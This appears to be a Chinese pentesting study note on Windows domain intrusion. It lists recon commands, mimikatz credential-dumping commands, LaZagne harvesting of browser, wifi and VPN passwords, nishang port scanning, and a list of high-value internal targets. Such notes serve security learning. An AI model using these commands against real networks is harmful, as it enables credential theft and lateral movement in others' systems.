







# 内网结构





相关名词(不需要刻意去看)

> 局域网
>
> 工作组
>
> 域环境
>
> 活动目录AD(功能策略)
>
> 域控DC
>
> 单域
>
> 父域子域
>
> 域树和域森林

# 单域

## 信息收集

### 基本信息搜集

```
systeminfo 详细信息
net start   启动服务
tasklist    进程任务
schtasks	计划任务
```



### 网络信息搜集

```
ipconfig /all	判断存在域dns
net view /domain 判断存在域
net time /domain 判断主域 
netstat -ano     查看开放端口
nslookup  XXX 域名,追踪来源地址,如可以追踪到DC的ip
```



### 用户信息搜集

```powershell
系统默认常见用户身份
Domain Admins
Domain Computers
Domain Controllers
Domain Guest
Domain Users
Enterprise Admins 企业系统管理员用户(默认对域控制器有完全控制)
相关用户信息搜集操作
whoami /all 用户权限
net config workstation 登录信息
net user 本地用户
net localgroup 本地用户组
net user /domain 获取域用户信息
net group /domain 获取域用户组信息
wmic useraccount get /all 涉及域用户详细信息
net group "domain computers" /domain 获取域主机名
net group "Domain Admins" /domain  查询域管理员账户
net group "Domain Controllers" /domain 查询域控制器
net group "Enterprise Admins" /domain 查域管理员用户组
```



## 凭据信息

### 计算机用户HASH,明文获取 

```
mimikatz(win),mimipenguin(linux)
#提升权限
privilege::debug
#抓取密码
sekurlsa::logonpasswords full
#写入文件
mimikatz.exe
```

[工具使用介绍](https://www.cnblogs.com/-mo-/p/11890232.html)



但是会报错,因为只有该命令需要管理员权限



### 计算机各种协议服务口令获取:

```powershell
1.沾点源码本份文件、数据库备份文件等
2.各类数据库web管理入库口,如PHPMyadmin
3.浏览器保存密码,浏览器cookies
4.其他用户会话、3389和ipc$连接记录
5.保存的wifi密码
6.网络内部的各种账号和密码,如Email,VPN,FTP,OA等
使用工具 LaZagne(win,linux,mac) XenArmor(收费,很猛,自己找学习版)
//收集到的密码可以自己做字典,可能后面这些密码可以用于其他计算机
#LaZagne
https://cloud.tencent.com/developer/article/1521627
```


## 探针主机域控架构服务

```powershell
for /L %I in (1,1,254) DO @ping -w 1-n 192.168.3.%I |findstr "TTL="
nbtscan(老工具,没啥用,还可能被杀) nmap  masscan powerShell脚本(nishang empire等)

#nishang介绍
https://pingmaoer.github.io/2020/04/08/PowerShell-Nishang/
#设置执行策略
Set-ExecutionPolicy RemoteSigned
#导入nishang环境
Import-Module .\nishang.psm1
#获取常规计算机信息
Get-Information
#端口扫描 (查看目录对应文件有言是语法)
Invoke-PortScan -StartAddress 192.168.10.0 -EndAddress 192.168.10.100 -ResolveHost -ScanPort
#其他功能:删除补丁,反弹Shell,平局获取等
```

核心业务机器:
1.高级管理人员个人计算机
2.产品管理系统服务器
3.办公系统服务器
4.财务应用系统服务器
5.核心产品源码服务器(SVN、GIT)
6.数据库服务器等等等

